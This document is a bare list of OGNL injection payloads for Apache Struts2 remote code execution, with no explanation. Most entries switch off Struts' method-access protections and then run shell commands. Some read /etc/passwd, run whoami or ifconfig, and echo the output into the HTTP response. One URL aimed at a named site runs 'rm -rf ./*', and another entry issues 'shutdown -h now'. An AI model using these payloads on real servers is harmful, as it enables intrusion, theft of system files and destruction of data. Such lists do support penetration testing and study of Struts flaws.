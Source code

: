 * %{#sc=@javax.servlet.http.HttpServletRequest.getSession().getServletContext().setAttribute("test", "hello")}
* %{#sc=@javax.servlet.http.HttpServletRequest.getSession().getServletContext().getInitParameterNames()}
* %{#sc=@javax.servlet.http.HttpServletRequest.getSession().getServletContext().getResourceAsStream("~/test.txt")}
* %{@java.lang.ClassLoader@getSystemClassLoader()}
* %{#a=new java.lang.Runtime().exec("ls -las", new java.io.File("/"))}
* %{"userDir{" + @java.lang.System@getProperty("user.dir") + "}"} 
* %{"osName{" + @java.lang.System@getProperty("os.name") + "}"} 
* %{@java.lang.System@clearProperty("java.class.path")} 
* %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "head -3 /etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
* http://www.glassy.com/test.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(a)(b)&('\u0023_memberAccess.exclude\u003d@java.util.Collections@EMPTY_SET')(a)(b)&('\u0023_memberAccess.allowStaticMethodAccess\u003dfalse')(a)(b)&('\u0040java.lang.Runtime@getRuntime().exec(\'/bin/bash\u0020-c\u0020rm\u0020-rf\u0020./*\')')(a)(b)
* ${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('pwd').getInputStream()),#q}
* %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "ifconfig"})).start().getInputStream(),#b=new java.io.BufferedReader(new java.io.InputStreamReader(#a)),#c=new char[50000],#b.read(#c),#d=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#d.getWriter().println(new java.lang.String(#c)),#d.getWriter().flush(),#d.getWriter().close()}
* %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "ls -als"})).start().getInputStream(),#b=new java.io.BufferedReader(new java.io.InputStreamReader(#a)),#c=new char[50000],#b.read(#c),#d=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#d.getWriter().println(new java.lang.String(#c)),#d.getWriter().flush(),#d.getWriter().close()}
* %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "cd ~ && ls -als"})).start().getInputStream(),#b=new java.io.BufferedReader(new java.io.InputStreamReader(#a)),#c=new char[50000],#b.read(#c),#d=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#d.getWriter().println(new java.lang.String(#c)),#d.getWriter().flush(),#d.getWriter().close()}
* ${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),@java.lang.Runtime@getRuntime().exec('shutdown -h now')}
* %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("ls -a").getInputStream())).(#q)}
* %{#req=@org.apache.struts2.ServletActionContext@getRequest(), #response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
* %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
* %{('#_memberAccess[\'allowStaticMethodAccess\']')(vaaa)=true&(aaaa)(('#context[\'xwork.MethodAccessor.denyMethodExecution\']=#vccc')(#vccc=new java.lang.Boolean("false")))&(asdf)(('#rt.exec("touch@/tmp/success".split("@"))')(#rt=@java.lang.Runtime@getRuntime()))=1}
* %{('#_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('#context[\'xwork.MethodAccessor.denyMethodExecution\']=false')(b))&('#c')(('#_memberAccess.excludeProperties=@java.util.Collections@EMPTY_SET')(c))&(g)(('#mycmd=\'whoami\'')(d))&(h)(('#myret=@java.lang.Runtime@getRuntime().exec(#mycmd)')(d))&(i)(('#mydat=new java.io.DataInputStream(#myret.getInputStream())')(d))&(j)(('#myres=new byte[51020]')(d))&(k)(('#mydat.readFully(#myres)')(d))&(l)(('#mystr=new java.lang.String(#myres)')(d))&(m)(('#myout=@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('#myout.getWriter().println(#mystr)')(d))}
* ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '